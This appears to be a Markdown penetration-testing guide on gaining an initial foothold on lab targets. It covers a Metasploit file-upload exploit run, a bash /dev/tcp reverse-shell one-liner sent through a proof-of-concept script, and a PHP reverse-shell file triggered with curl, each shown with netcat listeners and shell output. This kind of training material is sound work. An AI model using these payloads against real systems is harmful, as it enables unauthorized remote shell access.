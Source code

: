 # Foothold

 - [Metasploit](Foothold.md#metasploit)
 - [Proof of Concept Scripts](Foothold.md#proof-of-concept-scripts)
 - [File Upload](Foothold.md#file-upload)
 
## Metasploit
Since getting the service versions was a part of the reconnaissance phase, it should be taken advantage of.  
Google the version of any services you find and see if there are any vulnerabilities.  
If you're lucky, there's a Metasploit module that you can use.  

There's a nice [SANS cheatsheet](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf) to help use Metasploit though.  
Here's an example run of an example exploit to put the cheatsheet into perpsective.
```console
msf5 > search example

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/example_file_upload     2015-09-15       excellent  Yes    Examlple File Upload Vulnerability

msf5 > use 0
msf5 exploit(multi/http/example_file_upload) > options

Module options (exploit/multi/http/example_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   VHOST                       no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Example 3.1.1

msf5 exploit(multi/http/example_file_upload) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf5 exploit(multi/http/example_file_upload) > set TARGETURI /example/
TARGETURI => /example/
msf5 exploit(multi/http/example_file_upload) > run
[*] Started reverse TCP handler on 10.10.15.1:4444
[*] Sending stage (37543 bytes) to 10.10.10.10
[*] Meterpreter session 1 opened (10.10.15.1:4444 -> 10.10.10.10:56052) at 2020-07-11 20:51:40 -0500
[+] Deleted payload.php
meterpreter > shell
Process 3816 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Proof of Concept Scripts
If you find a vulnerability on a service, but there isn't a Metasploit module available,  
you might be able to find a proof of concept (PoC) script on Github or Exploit-DB.  
More often than not, a PoC script will only give you the ability to send commands to run, which can be slow and cumbersome to use.  
The solution to this is setting up a reverse shell.

Utilizing a reverse shell is a three step process

 1. Setting up a netcat listener on your local machine
    ```
    Command Breakdown:
        nc: TCP/IP swiss army knife, used to read and write data across network connections
        -n: No DNS
        -v: Verbose
        -l: Listen for inbound connections
        -p 4444: Local port to open for connections
    ```

    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    ```
     
 2. Executing a reverse shell on the target machine by using a PoC script.  
    This step can use any number of programming languages and commands.  
    Luckily, there's a Github repository called [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)  
    that offers a cheat sheet for such a thing. (Among many other great materials)
    ```console
    user@parrot:~$ python3 50180 http://10.10.10.10/example -c "bash -i >& /dev/tcp/10.10.15.1/4444 0>&1"  
    Example 2.3 - Remote Command Execution
    
    [+] Uploading malicious .zip file: ✓
    [+] Executing bash -i >& /dev/tcp/10.10.15.1/4444 0>&1: ✓
    [+] Keep breaking ev3rYthiNg!!
    ```
    
 3. Return to the listener and start enumerating for a better user.
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.10.10] from (UNKNOWN) [10.10.15.1] 33280
    www-data@example:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

## File Upload
If there isn't a common vulnerability to exploit, then you might want to look for a place to upload files.  
If you do find a place to upload files, then you should try uploading a PHP reverse shell.

payload.php:
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.15.1/4444 0>&1'");
?>
```

Once you've uploaded the reverse shell, then you can create a netcat listener and trigger the playload.

 1. Setting up a netcat listener on your local machine
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    ```
     
 2. With your file uploaded, you should find out where it's stored on the website and `curl` it to trigger the reverse shell.
    ```console
    user@parrot:~$ curl http://10.10.10.10/upload/payload.php
    ```
    
 3. Return to the listener and start enumerating for a better user.
    ```console
    user@parrot:~$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [10.10.10.10] from (UNKNOWN) [10.10.15.1] 45812
    www-data@example:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
